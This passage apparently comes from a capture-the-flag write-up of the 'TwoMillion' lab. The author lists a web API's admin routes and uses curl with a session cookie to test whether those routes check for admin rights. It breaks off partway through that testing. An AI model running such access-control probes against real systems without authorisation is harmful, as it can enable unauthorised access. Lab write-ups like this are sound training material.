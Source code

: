 <img src="/assets/writeups/2023-06-10-twomillion/api-endpoints.png" width=600px alt="API endpoints">

Interesting. This API has a `admin` section that contains three routes: `/auth`, `/vpn/generate`, and `/settings/update`. Let's try it!

#### Admin routes

In this pentest, I've used Postman. For practical purposes, though, all the requests in this write-up are using curl.

First, let's see if our current user is admin:

```
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte"
```

```json
{"message":false}
```

False. Let's see if the other two routes checks if I'm admin.

`/vpn/generate` : 

```
curl -v http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -d ""  # '-d' to use POST method without any data
```
